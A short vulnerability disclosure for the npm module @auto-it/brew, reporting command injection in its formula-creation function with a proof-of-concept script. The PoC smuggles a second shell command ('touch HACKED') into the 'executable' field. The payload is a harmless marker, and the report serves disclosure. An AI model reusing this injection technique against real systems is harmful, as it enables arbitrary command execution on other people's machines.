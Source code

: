 # Description

The `@auto-it/brew` module is vulnerable against `RCE` since the `inputs` are `formatted` inside a command executed without checks, leading to `arbitrary command injection`

# POC

1. Create the following PoC file:

```js
// poc.js
var brew = require('@auto-it/brew');
var Brew = new brew.default();
Brew.createFormula({git:{getLatestTagInBranch:function(){}}, logger:{log:{error:function(){}, info:function(){}}}}, {"executable":"ssss; touch HACKED; #", "name":"test"})

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i @auto-it/brew # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
